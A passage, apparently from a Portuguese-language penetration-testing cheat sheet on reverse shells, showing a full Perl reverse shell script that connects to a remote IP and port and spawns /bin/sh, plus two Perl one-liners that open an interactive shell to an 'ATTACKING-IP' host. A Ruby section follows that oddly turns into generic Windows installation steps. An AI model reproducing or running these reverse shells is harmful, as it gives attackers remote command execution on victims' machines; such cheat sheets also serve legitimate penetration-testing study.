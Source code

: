 ### Exemplo de Uso

Aqui está um exemplo de como usar a Perl Reverse Shell:

```perl
use Socket;
use FileHandle;

$ip = "192.168.0.1";
$port = 4444;

$proto = getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto);
$sin = sockaddr_in($port, inet_aton($ip));
connect(SOCKET, $sin);

open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");

system("/bin/sh -i");
```

Neste exemplo, o hacker especifica o endereço IP e a porta do servidor remoto. A shell Perl se conecta ao servidor remoto e redireciona as entradas e saídas padrão para a conexão. Em seguida, o hacker pode executar comandos no sistema alvo.

### Considerações Finais

As shells Perl são ferramentas poderosas para hackers durante um teste de penetração. Elas permitem a execução de comandos no sistema alvo e podem ser usadas para obter acesso persistente. No entanto, é importante lembrar que o uso de shells Perl para fins maliciosos é ilegal e antiético.
```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
## Ruby

Ruby é uma linguagem de programação dinâmica, orientada a objetos e de código aberto. É conhecida por sua sintaxe simples e expressiva, o que a torna fácil de ler e escrever. Ruby é frequentemente usado para desenvolvimento web e scripting.

### Instalação do Ruby

Para começar a usar o Ruby, você precisa instalá-lo em seu sistema. Siga as etapas abaixo para instalar o Ruby em um ambiente Windows:

1. Baixe o instalador do Ruby para Windows no site oficial do Ruby (https://www.ruby-lang.org/pt/downloads/).
2. Execute o instalador e siga as instruções na tela para concluir a instalação.
3. Após a instalação, abra o prompt de comando e digite `ruby -v` para verificar se o Ruby foi instalado corretamente. Você deve ver a versão do Ruby instalada.
